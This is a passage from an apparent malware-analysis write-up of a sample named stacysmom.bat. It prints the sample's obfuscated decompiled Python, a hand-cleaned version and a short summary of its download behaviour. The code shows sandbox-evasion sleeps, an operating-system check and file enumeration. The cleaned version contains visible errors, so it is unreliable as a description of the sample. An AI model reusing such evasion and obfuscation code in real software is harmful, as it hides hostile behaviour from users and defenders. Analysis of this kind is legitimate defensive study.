    bbbBBBBBbbbBBBBBbbBBbB = bbBBbbBBbbbBBBBBBbbbbb.getcwd
    bbBbbbBbBBbBBBBbbbbbbB = f'''{bbbBBBBBbbbBBBBBbbBBbB()}{bbbBBbBBBbbBBBBbbbbbbB}.fi'''
    bbBbbbBbBBbBbbBbbbbbbB = []
    bbbbBBBBbbBBbBBbBBbBbb = '_'
    should_stacy_shut_up()
    BBbbBBbbbBBbBBbBBbbbbb = '.'
# WARNING: Decompyle incomplete


def stacy_make_pretty(zzZZzzzZZZZzzZZZzzZZZZZZ):
    should_stacy_shut_up()
    zzZZzzzzzzzzzZZZzzZZZzZZ = []
    zzZZzzzzzZZZzZZZzzZZZzZZ = None
    zzZZzzZZZzzzzZZZzzZZZzZZ = None
    for zzZZzzzzzzzzzZZZzzZZZzZZ in zzZZzzzZZZZzzZZZzzZZZZZZ:
        should_stacy_shut_up()
        (zzZZzzzZZZZzzZZZzzZZZzZZ, zzZZzzzZZZZzzZZZzzzzzzZZ) = zzZZzzzzzzzzzZZZzzZZZzZZ
        if zzZZzzzzzZZZzZZZzzZZZzZZ is not zzZZzzZZZzzzzZZZzzZZZzZZ:
            should_stacy_shut_up()
            if zzZZzzzZZZZzzZZZzzzzzzZZ < zzZZzzzzzZZZzZZZzzZZZzZZ:
                zzZZzzzzzzzzzZZZzzZZZzZZ.insert(0, zzZZzzzZZZZzzZZZzzZZZzZZ)
            else:
                zzZZzzzzzzzzzZZZzzZZZzZZ.insert(-1, zzZZzzzZZZZzzZZZzzZZZzZZ)
        zzZZzzzzzzzzzZZZzzZZZzZZ.insert(-1, zzZZzzzZZZZzzZZZzzZZZzZZ)
        zzZZzzzzzZZZzZZZzzZZZzZZ = zzZZzzzZZZZzzZZZzzzzzzZZ
    should_stacy_shut_up()
    zzZZzzzzzzzzzZZZzzZZZzZZ.reverse()
    return zzZZzzzzzzzzzZZZzzZZZzZZ


def stacy_breaks_shit(yYYyYyyYyyyyyYYYYYY):
Unsupported opcode: RERAISE
    should_stacy_shut_up()
# WARNING: Decompyle incomplete


def run_stacy():
    should_stacy_shut_up()
    xXXxxXXxXxxXXx = is_stacy_in_the_right_spot()
    if xXXxxXXxXxxXXx:
        should_stacy_shut_up()
        xXXxxXXxXXXXXx = stacy_find_it()
        should_stacy_shut_up()
        sorted_list = stacy_make_pretty(xXXxxXXxXXXXXx)
        should_stacy_shut_up()
        stacy_breaks_shit(sorted_list)
    else:
        stacy_dont_stay()

if __name__ == '__main__':
    qqQQqqQQqqQQqqQQQqqQQQ = 'CiAgICAgIyUlICAgICAgICAgICAgICUlJSAgICAgCiAgICAgJSUlJSUgICAgICAgICAlJSUlJSAgICAgCiAgICAgJSUlJSUlJSAgICAgJSUlJSUlJSAgICAgCiAgICAgJSUlJSUlJSUlICUlJSUlJSUlJSAgICAgCiAgJSUlJSUlJSUlJSUlJSUlJSUlJSUlJSUlJSAgCiAlJSUlJSUlJSUlJSUlJSUlJSUlJSUlJSUlJSUgCiAlJSUlJSUlICUlJSUlJSUlJSUlICUlJSUlJSUgCiAlJSUlJSUlJSAgJSUlJSUlJSAgJSUlJSUlJSUgCiAlJSUlJSUlJSUlICAlJSUgICUlJSUlJSUlJSUgCiAlJSUlJSUlJSUgICAgICAgICAlJSUlJSUlJSUgCiAlJSUlJSUlICAgICAgICAgICAgICUlJSUlJSUKIApNYWxjb3JlOiBTaW1wbGUgRmlsZSBBbmFseXNpcw=='
    qqQQqqQQqqQQqqqqqqqQQQ = print
    qqQQQQQQqqQQqqQQQqqQQQ = base64
    QQQQqqQQqqQQqqQQQqqQQQ = qqQQQQQQqqQQqqQQQqqQQQ.b64decode
    qqQQqqQQqqQQqqqqqqqQQQ(QQQQqqQQqqQQqqQQQqqQQQ(qqQQqqQQqqQQqqQQQqqQQQ).decode())
    run_stacy()
```

Again, it is obfuscated. Cleaning the code will make our eyes better.

The cleaned code will looks something like below.

```py
import os
import sys
import time
import string
import random
import platform
import base64

rng = random.SystemRandom()

def generate_random_string():
    letters = string.ascii_letters
    length = rng.randint(1, 15)
    return ''.join(letters for _ in range(length))

def get_random_string_list():
    length = rng.randint(1, 20)
    random_strings = []
    for _ in range(length):
        random_strings.append(generate_random_string())
    if len(random_strings) > rng.randint(1, 4):
        if rng.randint(1, 100) < 1:
            random_strings.insert(0, random_strings[-1])
    return random_strings

def get_random_int(min_val, max_val):
    return rng.randint(min_val, max_val)

def pause_execution(oOoOoOoOoOoOoOoO, sleep_condition=(False, True)):
    if not sleep_condition and oOoOoOoOoOoOoOoO:
        sleep_duration = get_random_int(1, 13)
    elif sleep_condition and oOoOoOoOoOoOoOoO:
        sleep_duration = get_random_int(1, 4)
    elif oOoOoOoOoOoOoOoO and sleep_condition:
        sleep_duration = get_random_int(1, 4) + get_random_int(1, 13)
    else:
        sleep_duration = get_random_int(1, 4)
    time.sleep(sleep_duration)
    return get_random_string_list()

def should_pause_execution():
    condition1 = get_random_int(1, 5) < 3
    if condition1:
        condition2 = get_random_int(1, 4) > 2
        condition3 = get_random_int(1, 10) < 5
        pause_execution(condition3, condition2)

def is_running_on_windows():
    should_pause_execution()
    return 'win' in platform.platform().lower()

def print_windows_warning():
    print('MAYBE YOU SHOULD RUN THIS ON WINDOWS?')

def find_and_manipulate_files():
    should_pause_execution()
    path = os.path
    separator = path.sep
    current_dir = path.getcwd()
    file_path = f'{current_dir}{separator}file'
    file_list = []
    for filename in os.listdir(current_dir):
        if filename.endswith('.txt'):
            file_list.append(filename)
    return file_list

def process_items(items):
    should_pause_execution()
    processed_items = []
    last_item = None
    for item in items:
        should_pause_execution()
        if item != last_item:
            if last_item and item < last_item:
                processed_items.insert(0, item)
            else:
                processed_items.append(item)
        last_item = item
    processed_items.reverse()
    return processed_items

def incomplete_function(arg):
    should_pause_execution()

def run_script():
    should_pause_execution()
    if is_running_on_windows():
        should_pause_execution()
        files = find_and_manipulate_files()
        should_pause_execution()
        processed_files = process_items(files)
        should_pause_execution()
        incomplete_function(processed_files)
    else:
        print_windows_warning()

if __name__ == '__main__':
    encoded_string = 'CiAgICAgIyUlICAgICAgICAgICAgICUlJSAgICAgCiAgICAgJSUlJSUgICAgICAgICAlJSUlJSAgICAgCiAgICAgJSUlJSUlJSAgICAgJSUlJSUlJSAgICAgCiAgICAgJSUlJSUlJSUlICUlJSUlJSUlJSAgICAgCiAgJSUlJSUlJSUlJSUlJSUlJSUlJSUlJSUlJSAgCiAlJSUlJSUlJSUlJSUlJSUlJSUlJSUlJSUlJSUgCiAlJSUlJSUlICUlJSUlJSUlJSUlICUlJSUlJSUgCiAlJSUlJSUlJSAgJSUlJSUlJSAgJSUlJSUlJSUgCiAlJSUlJSUlJSUlICAlJSUgICUlJSUlJSUlJSUgCiAlJSUlJSUlJSUgICAgICAgICAlJSUlJSUlJSUgCiAlJSUlJSUlICAgICAgICAgICAgICUlJSUlJSUKIApNYWxjb3JlOiBTaW1wbGUgRmlsZSBBbmFseXNpcw=='
    decoded_string = base64.b64decode(encoded_string).decode()
    print(decoded_string)
    run_script()
```

# Summary

The execution of **stacysmom.bat** producing several files downloaded on the victim's host. There were a lot of obfuscation happening in those scripts as discussed before. The main purpose of the executables is to accessing "https://link.malcore.io" url. With that, a simple diagram to understanding **stacysmom.bat** behavior are as below.

